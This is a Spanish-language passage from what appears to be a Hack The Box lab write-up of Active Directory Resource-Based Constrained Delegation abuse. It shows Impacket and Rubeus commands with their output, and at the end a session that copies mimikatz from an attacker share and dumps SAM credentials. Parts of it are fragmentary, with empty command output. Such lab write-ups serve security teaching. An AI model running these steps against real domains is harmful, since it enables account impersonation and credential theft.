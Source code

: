 Este proceso también se puede realizar desde Linux utilizando herramientas como Impacket. Podemos crear el equipo con `addcomputer` de Impacket y configurar los permisos hacia WEB utilizando `rbcd` (Resource-Based Constrained Delegation).

```bash
❯ impacket-addcomputer -computer-name attackersystem$ -computer-pass 123456 htb.local/test-svc:'T3st-S3v!ce-F0r-Pr0d'  
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account attackersystem$ with password 123456.

❯ impacket-rbcd -delegate-from attackersystem$ -delegate-to WEB$ -action write htb.local/test-svc:'T3st-S3v!ce-F0r-Pr0d'  
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] attackersystem$ can now impersonate users on WEB$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     attackersystem$   (S-1-5-21-4266912945-3985045794-2943778634-15101)
```

con Rubeus.exe podemos convertir la contraseña "123456" que hemos establecido a un hash.

```powershell
PS C:\Users\Administrator\Documents> .\Rubeus.exe hash /password:123456 /user:attackersystem$ /domain:htb.local  

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3

[*] Action: Calculate Password Hash(es)

[*] Input password             : 123456
[*] Input username             : attackersystem$
[*] Input domain               : htb.local
[*] Salt                       : HTB.LOCALhostattacketsystem.htb.local
[*]       rc4_hmac             : 32ED87BDB5FDC5E9CBA88547376818D4
[*]       aes128_cts_hmac_sha1 : BB8C605808D76972251505B80FE6FDC2
[*]       aes256_cts_hmac_sha1 : 25AE34697F20A4A40AA2568B2E000B9FEAF46DE374C432D4A34D36F1EBC50392
[*]       des_cbc_md5          : 13E576A2D051854A

PS C:\Users\Administrator\Documents>
```

Si al intentar obtener un ticket suplantando a Administrator utilizando el hash de la contraseña "123456" para el equipo attackersystem$ en el dominio htb.local, se produce un error, puede deberse a varios motivos: permisos insuficientes para suplantar al usuario, configuración incorrecta en Rubeus o en la solicitud del ticket, restricciones de seguridad en el dominio que impiden la suplantación, o posibles errores de sintaxis en el comando utilizado. Sería útil revisar el error específico para diagnosticar y solucionar el problema.


[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents>
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit
[dev.htb.local]: PS C:\Users\Administrator\Documents>